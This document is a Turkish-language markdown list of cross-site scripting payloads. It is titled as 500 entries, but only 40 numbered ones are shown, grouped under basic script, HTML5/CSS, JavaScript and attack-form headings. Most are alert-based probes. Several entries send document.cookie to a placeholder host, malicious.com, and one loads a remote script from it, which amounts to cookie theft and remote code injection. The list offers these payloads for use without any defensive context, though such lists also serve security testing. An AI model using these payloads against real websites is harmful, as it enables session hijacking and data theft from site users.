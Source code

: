 # 500 XSS Payload'ları

## Basit Script Payload'ları
1. `<script>alert('XSS')</script>`
2. `<img src="x" onerror="alert('XSS')">`
3. `<svg/onload=alert('XSS')>`
4. `<iframe src="javascript:alert('XSS')"></iframe>`
5. `<input onfocus="alert('XSS')">`
6. `<a href="javascript:alert('XSS')">Click me</a>`
7. `<body onload="alert('XSS')">`
8. `<form action="javascript:alert('XSS')"><button>Submit</button></form>`
9. `<div style="background-image: url(javascript:alert('XSS'))">`
10. `<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">`

## HTML5 ve CSS Payload'ları
11. `<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')">`
12. `<video src="javascript:alert('XSS')"></video>`
13. `<audio src="javascript:alert('XSS')"></audio>`
14. `<canvas onmouseover="alert('XSS')"></canvas>`
15. `<object data="javascript:alert('XSS')"></object>`
16. `<embed src="javascript:alert('XSS')"></embed>`
17. `<details open ontoggle="alert('XSS')">`
18. `<summary onclick="alert('XSS')">Click me</summary>`
19. `<marquee onstart="alert('XSS')">`
20. `<progress value="0" onmouseover="alert('XSS')"></progress>`

## JavaScript ve JSON Payload'ları
21. `<script>fetch('https://malicious.com/?cookie=' + document.cookie)</script>`
22. `<script>eval('alert(document.cookie)')</script>`
23. `<script>document.write('<img src="x" onerror="alert(document.cookie)">')</script>`
24. `<script src="https://malicious.com/xss.js"></script>`
25. `<script>window.location = 'javascript:alert("XSS")'</script>`
26. `<script>fetch('https://malicious.com/?data=' + encodeURIComponent(document.cookie))</script>`
27. `<script>window['constructor']['prototype']['alert']('XSS')</script>`
28. `<script>document.body.innerHTML = '<img src="x" onerror="alert(1)">'</script>`
29. `<script>Object.defineProperty(window, 'alert', { value: function() { document.body.innerHTML = '<img src="x" onerror="alert(2)">' } })</script>`
30. `<script>eval("fetch('https://malicious.com/?cookie='+document.cookie)")</script>`

## Atak Şekilleri
31. `<script>alert(1) //</script>`
32. `<script>alert(1); //</script>`
33. `<script>/*</script><script>alert(1)</script>`
34. `<img src="x" onerror="javascript:alert('XSS')">`
35. `<iframe src="javascript:alert('XSS')"></iframe>`
36. `<style>@import url("javascript:alert('XSS')")</style>`
37. `<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>`
38. `<div style="content: url('javascript:alert(1)');"></div>`
39. `<a href="data:text/html,<script>alert('XSS')</script>">Click me</a>`
40. `<button onclick="alert('XSS')">Click me</button>`
